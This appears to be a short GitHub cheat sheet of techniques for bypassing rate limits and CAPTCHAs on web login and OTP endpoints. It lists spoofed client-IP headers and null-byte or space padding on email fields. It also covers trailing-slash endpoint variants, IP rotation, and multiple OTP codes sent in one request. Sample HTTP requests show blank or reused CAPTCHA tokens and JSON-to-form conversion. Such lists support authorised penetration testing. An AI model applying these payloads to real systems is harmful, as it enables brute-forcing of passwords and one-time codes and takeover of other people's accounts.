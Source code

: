 #  Rate Limit

## 1 HTTP Methods
    If the request goes on GET try to change it to POST, PUT, etc.,
    If you wanna bypass the rate-limit in API's try HEAD method.
    
    
## 2 Add some custom header
```
X-Forwarded-For : 127.0.0.1
X-Host : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1 
X-Custom-IP-Authorization: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1

```






## 3.Using Special Characters
  ```  
    Adding Null Byte ( %0d , %2e , %09 , %20 , %0, %00, %0d%0a, %0a, %0C) at the end of the Email email=victim@gmail.com%00
    Try adding a Space Character after a Email. ( Not Encoded ) {"email":"victim@gmail.com "}
    Adding a slash(/) at the end of api endpoint can also Bypass Rate Limit. domain.com/v1/login -> domain.com/v1/login/

```


## 4. Using IP Rotate Burp Extension

    Try changing the user-agent, the cookies... anything that could be able to identify you
    If they are limiting to 10 tries per IP, every 10 tries change the IP inside the header.
    
    
## 5 Multiple values in request

    When brute-force, try passing several values in one request at once, for instance:
    phone=+17342239011&code[]=123456&code[]=654321&...&code[]=331337
    
    
------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Captcha
## Changing the request method, 
```
## Custom header 
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
## Remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=&_Username=daffa&_Password=test123
```

## Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]
_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

## Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]
{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

    
    
    
    
    
    



